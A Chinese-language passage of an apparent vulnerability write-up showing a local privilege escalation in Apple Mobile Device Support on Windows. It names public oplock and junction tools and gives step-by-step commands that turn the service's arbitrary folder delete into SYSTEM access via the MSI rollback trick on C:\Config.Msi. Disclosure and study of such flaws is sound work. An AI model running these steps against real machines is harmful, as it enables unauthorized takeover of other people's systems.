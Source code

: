 1. 释放 oplock  
  
## 工具  
- Oplock  
  
SetOpLock：  
https://github.com/googleprojectzero/symboliclink-testing-tools/tree/main/SetOpLock  
  
Oplock 工具是一种在 Windows 中使用“机会锁”的工具。该工具允许我们通过锁定文件直到满足某些要求来“停止”进程，但它也可以用于“停止”进程以用于恶意目的，例如为我们的漏洞利用负载获得足够的运行时间。  
- FolderContentsDeleteToFolderDelete  
  
FilesystemEoPs：  
https://github.com/thezdi/PoC/tree/main/FilesystemEoPs  
  
FolderContentsDeleteToFolderDelete 工具的工作原理是自动创建一个包含文件的文件夹。然后在文件上设置 oplock 以停止该进程。当进程停止时，文件将移出文件夹。然后删除该文件夹，并将其重新创建为到目标目的地的 NTFS 连接点。  
  
当 oplock 被取消并且该过程继续时，文件/文件夹删除将遵循新创建的到目标目的地的 NTFS 连接点，并在继续执行之前删除该文件。  
- FolderOrFileDeleteToSystem  
  
FilesystemEoPs：  
https://github.com/thezdi/PoC/tree/main/FilesystemEoPs  
  
Zero Day Initiative 可能对此工具的解释最好，因此这里有一个直接来自他们的解释链接：  
  
滥用任意文件删除来提升权限和其他绝妙技巧(  
https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-and-other-great-tricks  
)  
## 漏洞验证  
  
漏洞验证包括 5 个步骤。  
1. 在 C:\ProgramData\Apple\Lockdown\ 上设置 Oplock  
  
```
.\SetOpLock.exe C:\ProgramData\Apple\Lockdown\
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/p863n88MewoGicPNjfjyhxJLUfrJMQMmKE0PAWjFVDeXPgCuhR5G95jBPgN9UWnCIzsibYDbWUXg6d6ySHKHtOXw/640?wx_fmt=png&from=appmsg "")  
1. 触发服务重启  
  
应用 -> 已安装的应用 -> Apple Mobile Device Support -> 修改 -> 修复  
  
1. 准备 MSI 回滚技巧  
  
```
.\FolderOrFileDeleteToSystem.exe
```  
1. 准备 Windows Junction（符号链接）步骤，将服务任意文件夹/文件删除原语指向 MSI 安装程序  
  
```
.\FolderContentsDeleteToFolderDelete.exe /target 'C:\Config.Msi' /initial "C:\ProgramData\Apple\Lockdown"
```  
  
1. 释放 Oplock  
  